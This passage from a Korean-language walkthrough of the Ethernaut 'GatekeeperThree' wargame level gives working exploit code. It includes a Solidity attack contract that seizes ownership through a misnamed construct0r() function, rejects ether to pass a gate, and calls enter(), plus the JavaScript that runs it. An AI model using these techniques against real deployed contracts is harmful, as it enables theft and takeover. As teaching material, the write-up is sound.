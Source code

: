 ``` javascript
await web3.eth.sendTransaction({
    from: player,
    to: contract.address,
    value: web3.utils.toWei("0.002", "ether")
});
```

### 5단계: 공격 컨트랙트 배포

``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IGatekeeperThree {
    function construct0r() external;
    function enter() external;
}

contract AttackGatekeeperThree {
    IGatekeeperThree public target;
    
    constructor(address _target) {
        target = IGatekeeperThree(_target);
    }
    
    // Ether 수신 거부 (Gate Three용)
    receive() external payable {
        revert("Rejecting ether");
    }
    
    function becomeOwner() external {
        target.construct0r();
    }
    
    function attack() external {
        target.enter();
    }
}
```

### 6단계: 최종 공격 실행

``` javascript
await attackContract.methods.becomeOwner().send({from: player});
await attackContract.methods.attack().send({from: player});
console.log(await contract.entrant() === player); // true
```

------------------------------------------------------------------------

## 공격 성공 결과
